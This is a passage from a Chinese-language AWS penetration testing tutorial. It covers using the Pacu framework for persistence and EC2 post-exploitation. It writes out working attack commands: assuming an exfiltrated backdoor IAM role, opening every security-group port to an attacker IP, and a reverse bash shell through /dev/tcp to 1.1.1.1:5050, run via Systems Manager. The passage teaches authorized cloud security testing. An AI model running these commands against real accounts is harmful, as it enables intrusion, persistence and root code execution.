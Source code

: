 我们自己的服务器在端口 5050 上监听来自我们后门 Lambda 函数的 IAM 角色 ARN

正如我们在前面的屏幕截图中看到的，我们的服务器收到了一个`HTTP` `POST`请求，其中包含一个 URL 编码的 IAM 角色 ARN（名为`A-New-Role`）。

如果我们想要请求此后门角色的凭据，我们将使用 STS `AssumeRole` API。我们可以通过运行以下 AWS CLI 命令，使用我们的`PersonalUser`的凭据来实现这一点：

```
aws sts assume-role --role-session-name Backdoor --role-arn arn:aws:iam::216825089941:role/A-New-Role
```

我们可以使用相同的命令来处理任何其他最终被创建并外泄到我们服务器的角色；我们只需要修改其中的 ARN。

现在我们是帐户中的管理员，我们有几种提升的持久性形式，并且我们还在帐户中执行了一些基本的侦察。现在，我们准备进入服务利用阶段。

# 后利用

后利用（或服务利用）阶段基本上是我们尽可能地针对 AWS 服务，以尝试发现弱点、错误配置和不良实践。我们将在本节中介绍一些主要的 AWS 服务，但任何 AWS 服务都有可能被利用和错误配置，因此查看任何正在使用的服务或资源几乎总是值得的，即使您可能对该服务本身不熟悉。

# EC2 利用

我们已经开始处理一些与 EC2 相关的内容，因此我们将从这里开始。EC2 也是您在渗透测试中经常遇到的服务之一，因此熟悉它并进行测试是一个好主意。当错误配置时，EC2 也可能产生一些高影响的发现，因此以它作为您的主要服务开始是没有错的。

我们可以首先检查有哪些 EC2 实例具有公共 IP 地址。在 AWS Web 控制台中，这很简单，因为您可以通过实例的公共 IP 地址对结果进行排序。如果我们想要从我们的`CompromisedUser`获得控制台访问权限，我们可以使用 IAM 的`CreateLoginProfile` API 为我们创建一个登录密码，但如果我们不想这样做，我们可以使用 Pacu 中的`data EC2`命令来查看我们之前执行的枚举的结果。

然后，对于每个具有公共 IP 地址的实例，我们可以查看附加到它们的 EC2 安全组。理想情况下，我们可以浏览安全组规则，尝试找到可能在实例上运行的任何服务。如果我们看到端口 80 对某个 IP 地址开放，我们知道该实例上可能正在运行 Web 服务器。如果我们看到端口 22 对某个 IP 地址开放，我们知道该实例上可能正在运行 SSH 服务器（等等）。如果其中任何端口对公共开放，我们可以尝试访问这些端口，并寻找任何低 hanging-fruit，例如弱/缺乏身份验证，已知的漏洞，或者您在网络风格渗透测试中可能寻找的其他任何内容。

如果满足了正确的条件，我们甚至可以在没有公共 IP 地址的实例上执行相同的任务，但是有管理员访问权限，我们可能可以使任何事情都能够运行。我们已经在账户中启动了一个 EC2 实例，用于特权升级，所以我们可能在其他 EC2 实例的 VPC 内。如果不是这样，我们可以启动另一个实例并以这种方式获得访问权限。从那个实例，我们可以访问其他 EC2 实例的内部 IP，所以我们可能可以通过这种方式获得进一步的访问权限。

如果这些都不起作用，我们可以修改这些实例的安全组规则，以允许我们访问。您可以使用 EC2 的`AuthorizeSecurityGroupIngress` API 手动执行此操作，或者我们可以使用`ec2__backdoor_ec2_sec_groups`模块创建允许我们访问任何端口的后门规则。使这一切发生的 Pacu 命令如下，我们正在为所有安全组向`1.1.1.1` IP 地址（模拟为我们自己的 IP）打开每个端口：

```
run ec2__backdoor_ec2_sec_groups --port-range 1-65535 --protocol TCP --ip 1.1.1.1/32
```

现在，如果我们的 IP 地址是`1.1.1.1`，我们应该能够访问任何实例上的任何端口。在这一点上，我们可以像在常规内部网络渗透测试中那样攻击这些服务。

如果我们想直接在任何 EC2 实例上获得 RCE，我们可以尝试几种方法。如果您不在乎重新启动任何 EC2 实例（您应该在乎，因为我们通常不希望对客户服务器执行此操作），那么您可以使用`ec2__startup_shell_script` Pacu 模块停止所有（或指定）EC2 实例，修改它们的`userdata`以在启动时输入`root/SYSTEM`的反向 shell，然后重新启动所有这些实例。它们只会离线几分钟，但如果您不熟悉环境的设置，这可能会导致重大问题，因此通常不建议这样做。

如果我们想要在 EC2 实例上获得 RCE，并且满足了正确的条件，我们可以在 Pacu 中使用`systemsmanager__rce_ec2`模块。它尝试识别哪些 EC2 实例安装了系统管理器代理（默认或非默认），然后如果识别到任何实例，它将尝试将系统管理器角色附加到它们上。一旦完成这一步，满足正确条件的实例将显示为系统管理器`run`命令的可用目标，这允许您在目标实例上以`root/SYSTEM`用户的身份执行代码。一个示例 Pacu 命令，在 Linux 目标上运行反向 bash shell，可能看起来像这样：

```
run systemsmanager__rce_ec2 --target-os Linux --command "bash -i >& /dev/tcp/1.1.1.1/5050 0>&1"
```
